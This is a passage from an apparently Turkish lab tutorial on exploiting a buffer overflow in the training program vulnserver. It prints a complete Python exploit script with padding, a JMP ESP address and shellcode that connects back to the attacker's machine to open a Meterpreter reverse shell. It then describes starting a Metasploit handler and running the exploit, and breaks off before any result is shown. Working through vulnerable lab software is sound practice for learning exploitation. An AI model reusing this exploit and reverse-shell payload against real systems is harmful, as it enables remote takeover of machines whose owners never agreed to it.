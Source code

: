 Aslında burada da öncekinden çok farklı bir şey yapmadık.
Sadece netcat yerine python'ın ağ üzerinden iletişim kurmaya yarayan modülü
olan socket'i kullandık ve socket modülünün kendi fonksiyonları ile payload'umuzu karşıya ilettik.
ama artık bu payload'un bize reverse shell üreteceğine inandığımız ve saldıracağımız makine de kendimizin olduğu için bu sefer payload'u kendi çalıştırdığımız programa değil de hedef makinede çalışan programa gönderelim.
O yüzden 

    s.connect(("localhost",1337))
olan satırı 

    s.connect(("192.168.2.147",1337))
    
ile değiştiriyoruz.("İlk bulduğumda makinenin ip'si 146 ile bitiyordu ancak yazıyı yazma sürem boyunca birkaç kez kapatıp açtığım için 147'li ip aldı").

Scriptimizin son hali bu şekilde.

        import socket
        tampon="OVERFLOW "
        tampon+="A"*35
        jmpesp="\x8d\x92\x04\x08"
        buf =  ""
        buf += "\x6a\x0a\x5e\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0"
        buf += "\x66\x89\xe1\xcd\x80\x97\x5b\x68\xc0\xa8\x02\x80\x68"
        buf += "\x02\x00\xad\x9e\x89\xe1\x6a\x66\x58\x50\x51\x57\x89"
        buf += "\xe1\x43\xcd\x80\x85\xc0\x79\x19\x4e\x74\x3d\x68\xa2"
        buf += "\x00\x00\x00\x58\x6a\x00\x6a\x05\x89\xe3\x31\xc9\xcd"
        buf += "\x80\x85\xc0\x79\xbd\xeb\x27\xb2\x07\xb9\x00\x10\x00"
        buf += "\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd\x80"
        buf += "\x85\xc0\x78\x10\x5b\x89\xe1\x99\xb6\x0c\xb0\x03\xcd"
        buf += "\x80\x85\xc0\x78\x02\xff\xe1\xb8\x01\x00\x00\x00\xbb"
        buf += "\x01\x00\x00\x00\xcd\x80"
        payload=tampon+jmpesp+buf
        s=socket.socket()
        s.connect(("192.168.2.147",1337))
        s.send(payload)
        
Bu script'i .py uzantılı şekilde kaydediyoruz.

Bu arada çaktırmadan vulnserver programının exploitini de yazmış olduk. :)

Exploitimizi çalıştırmadan önce gelecek olan bağlantıyı dinlememiz lazım.
Dönecek bağlantı meterpreter olduğu için metasploit'in içinden dinlememiz gerekiyor.
Bunun için de metasploit handler'ını açıyoruz ve gerekli parametreleri veriyoruz.

![enter image description here](https://i.ibb.co/54jY6J8/ov-met.png)

Burası gelecek bağlantıları dinlemeye başladı.
Geriye kalan tek şey exploitimizi çalıştırmak.
Ben dosyayı overflowexploit adıyla kaydettim.

![enter image description here](https://i.ibb.co/Ch3CfkP/ov-exploit.png)

Bu şekilde exploit'imizi çalıştırıyoruz ve inşallah bağlantı düşmüştür diye dua etmeye başlıyoruz :)
Sonrasında handler'ımızın çalıştığı sekmeye geri dönüyoruz veee...
